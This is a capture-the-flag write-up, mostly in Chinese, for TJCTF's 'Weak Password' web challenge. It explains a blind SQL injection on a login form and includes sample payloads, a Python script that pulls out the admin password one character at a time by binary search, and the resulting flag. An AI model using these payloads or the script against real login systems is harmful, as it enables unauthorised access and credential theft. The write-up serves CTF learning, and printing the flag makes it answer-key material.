





# Weak Password

Web, 50 Points

Auther: **saisree**

Writeup By: **yctseng1227**

## Description

It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})



## Solution

標題同樣為**Weak Password**，T貓盃只有`admin`:`admin`，這裡反而沒有這麼簡單XD

從題目給定`username`為`admin`，以及從`source code`可以看到`SQL語法`以及一些欄位資訊，我們可以猜到這題要用**Blind SQL injection**，一些基本的猜法可以參考[此篇](https://www.twblogs.net/a/5d0d7134bd9eee1ede0450b0)，當然也可以從網頁把`password`每個字元慢慢猜出來，但身為未來工程屍... 還是寫個Code吧 : )



How to Guess ?

透過`SQL injection`並利用登入結果判斷是否成功，想辦法從`username`撈出我們想要的資訊。




例如，猜`password`長度：
`admin' and length(password) > 13 -- ` --> success
`admin' and length(password) > 14 -- ` --> fail
`admin' and length(password) = 14 -- ` --> success

可以猜到`password`長度為14。

又例如，猜`password`每個字元：
`admin' and unicode(substr(password, 1)) > unicode('a') -- ` --> success
`admin' and unicode(substr(password, 1)) > unicode('b') -- ` --> fail
`admin' and unicode(substr(password, 1)) = unicode('b') -- ` --> success

可以猜到`password`第一個字元為`b`。

再來就是寫Code了，可以搭配**Binary search**加速搜尋速度~
然後用回傳的request長度判斷結果是否成功。

```python=
import requests
import string

def inject(n, opr, char):
    url = 'https://weak_password.tjctf.org/login'
    payload = {"username": "admin' and unicode(substr(password, {})) {} unicode('{}')-- ".format(n, opr,char), "password": "123"}
    r = requests.post(url, data=payload)
    return True if len(r.text)==1842 else False #1842:success


res = ""
li = list(string.digits + string.ascii_lowercase)
for i in range(1, 20):

	l = 0
    r = len(li) - 1

	# end up binary search if it can't checkout any character
    if inject(i, '>', li[0]) == False:
        print('password: '+res)
        break

    while l <= r:
        mid = (l +(r+1)) // 2
        #print(l, r, mid)
        if inject(i, '=', li[mid]):
            res = res + li[mid]
            break
        elif inject(i, '>', li[mid]):
            l = mid
        elif inject(i, '<', li[mid]):
            r = mid
        else:
            break
    print(res)
```

### Result



> tjctf{blindsqli14519}
